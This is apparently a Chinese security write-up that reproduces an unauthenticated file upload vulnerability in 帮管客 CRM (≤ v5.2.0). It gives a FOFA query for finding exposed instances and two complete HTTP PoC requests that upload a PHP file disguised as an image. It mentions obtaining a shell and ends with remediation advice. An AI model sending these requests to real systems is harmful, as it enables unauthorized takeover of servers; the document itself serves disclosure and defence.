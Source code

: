 
# 帮管客 CRM 文件上传漏洞复现

### 0x01 产品简介

  帮管客 CRM 是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客[CRM 客户管理系统](https://so.csdn.net/so/search?q=CRM%E5%AE%A2%E6%88%B7%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化[数据分析](https://www.pc6.com/pc/shujufenxiruanjian/ "数据分析")帮管客颠覆传统，重新定义企业管理系统。

### 0x02 漏洞概述

 帮管客 CRM ajax\_upload\_chat、ajax\_upload 等接口处存在文件上传漏洞，未经授权的攻击者可利用该漏洞获取服务器权限。

### 0x03 影响范围

 帮管客 CRM 客户管理系统免费版 <= v5.2.0

### 0x04 复现环境 

FOFA：app="帮管客-CRM"

![](assets/1701071246-48d7dd70df19136e69f996576e60f41e.png)

### 0x05 漏洞复现 

**PoC-1**

```cobol
POST /index.php/upload/ajax_upload HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

![](assets/1701071246-1c1ec56e681e6168b1beca0ced22a115.png) 回显了上传路径

![](assets/1701071246-3bf4f98de537f25a5ed5432a09123839.png) **PoC-2**

```cobol
POST /index.php/upload/ajax_upload_chat?type=image HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryv1WbOn5o

------WebKitFormBoundaryv1WbOn5o
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo();unlink(__FILE__);
------WebKitFormBoundaryv1WbOn5o--
```

![](assets/1701071246-01c99f0b95639843f1f6fb4944f0918e.png) 验证

![](assets/1701071246-cf419cc746b7bc4683d8a6b8576f8348.png)

**GetShell**

![](assets/1701071246-ca3bad2098c32666e642c23b1e4b0200.png)

### ![](assets/1701071246-856a7627a0b7bbea56f2ca30e01db5af.png)0x06 修复建议

关闭互联网暴露面或接口设置访问权限

升级至安全版本
